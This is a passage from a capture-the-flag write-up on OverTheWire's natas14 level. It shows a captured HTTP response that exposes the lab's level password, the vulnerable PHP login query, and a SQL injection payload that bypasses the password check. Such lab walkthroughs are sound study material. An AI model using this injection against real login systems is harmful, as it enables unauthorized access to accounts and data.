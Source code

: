 ```
Date: Sun, 29 Mar 2020 22:02:52 GMT
Server: Apache/2.4.10 (Debian)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Range: bytes 0-488/489
Content-Length: 489
Keep-Alive: timeout=5, max=89
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<br />
<b>Warning</b>:  mysql_num_rows() expects parameter 1 to be resource, boolean given in <b>/var/www/natas/natas14/index.php</b> on line <b>24</b><br />
Access denied!<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

=== END OF DATA ===
```

If this was more of a real scenario, it would have crawled up to 16 nested levels and attempted several probes (for varied types of vulnerabilities).

### pwning natas14

Anyways, let's move on and get done with this.

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

so, if we pass in a username such as `bobbytables" or 1 = 1; -- ` it will yield the following query:

```sql
SELECT * from users where username="bobbytables" or 1 = 1; -- " and password="foo"
```
